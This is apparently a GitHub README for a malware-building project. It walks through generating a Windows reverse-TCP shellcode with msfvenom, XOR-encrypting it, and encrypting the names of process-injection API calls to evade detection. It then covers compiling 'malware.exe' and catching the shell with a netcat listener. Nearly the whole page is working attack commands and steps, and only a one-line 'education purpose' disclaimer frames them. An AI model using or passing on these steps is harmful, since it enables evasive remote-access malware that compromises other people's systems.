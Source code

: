 ### Prerequesite
1. [Visual Studio](https://visualstudio.microsoft.com/downloads/)
2. [Python](https://www.python.org/downloads/)
3. [Metasploit Framework](https://www.metasploit.com/download)

### Initiate
##### Generate Shellcode
Run this command to generate the shellcode via Msfvenom.
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4455 -f raw -o shellcode.bin
```

##### Encrypt The Generated Payload 
Run this command to encrypt the generated shellcode.
```sh
python xorencrypt.py shellcode.bin
```

##### All Functions Must Be Encrypted
Make sure every functions like a `CreateRemoteThread`, `WriteProcessMemory`, and `VirtualAllocEx` are encrypted. Use the Python to do.
```sh
ptyhon
printCiphertext(xor("VirtualAllocEx", "password"))
printCiphertext(xor("WriteProcessMemory", "password"))
printCiphertext(xor("CreateRemoteThread", "password"))
```
>Note: Once those done, put them in the `*.cpp` file, take a look the specific line.

### Execute
1. Run `compiler.bat` to compile all of them, then you will have `malware.exe`
2. Run the listener (such as [Netcat] (https://github.com/diegocr/netcat/) tool)
3. Run `malware.exe`

***All stuffs are only for education purpose!***
